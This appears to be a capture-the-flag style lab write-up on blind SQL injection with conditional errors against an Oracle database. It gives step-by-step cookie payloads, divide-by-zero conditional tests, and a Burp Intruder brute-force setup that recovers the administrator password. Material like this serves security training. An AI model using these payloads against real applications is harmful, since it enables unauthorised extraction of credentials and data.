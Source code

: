 # Lab: Blind SQL injection with conditional errors

Intercept a page and find the TrackingId cookie. Add a `'` to the end to see that an error is returned. Repeat with `''` and see that the error is resolved, indicating that a syntax error has an effect.

To confirm that the server is accepting SQL queries, submit `'||(select '')||'`, which results in error. Try again with `'||(select '' from dual)||'`, which does not error, indicating that the database is Oracle (Oracle requires a table be specified and 'dual' is guaranteed to exist).

Submit an invalid table name to receive an error: `'||(select '' from asdfsdf)||'`

This confirms that the input is being processed as SQL.

Next verify that the users table exists (no error): `'||(select '' from users where rownum = 1)||'`

The row condition is necessary to prevent the concatenation from breaking, as multiple results would be returned otherwise.

Modify the query to test conditions: 

`'||(select case when (1=1) then to_char(1/0) else '' end from dual)||'` (error)

`'||(select case when (1=2) then to_char(1/0) else '' end from dual)||'` (no error)

Check for a user in the table:
`'||(select case when (1=1) then to_char(1/0) else '' end from users where username='administrator')||'`


Now prep to brute-force the password:
`'||(select case when substr(password,1,1)='a' then to_char(1/0) else '' end from users where username='administrator')||'`

Send the request to the intruder and select the cluster bomb attack type. Set the payloads as follows:
`'||(select case when SUBSTR(password,§1§,1)='§a§' then to_char(1/0) else '' end from users where username='administrator')||'`

Set payload 1 to use numbers 1-20 (guessing length based on last lab, but length checking is basically the same as in previous example with modifications for this context).

Set payload 2 to use a-z and 0-9. Start the attack. Filter out 2xx responses and sort by payload 1 to find the password: `stxyrxbn4m3elzf0ghnh`

Login as administrator to complete the lab.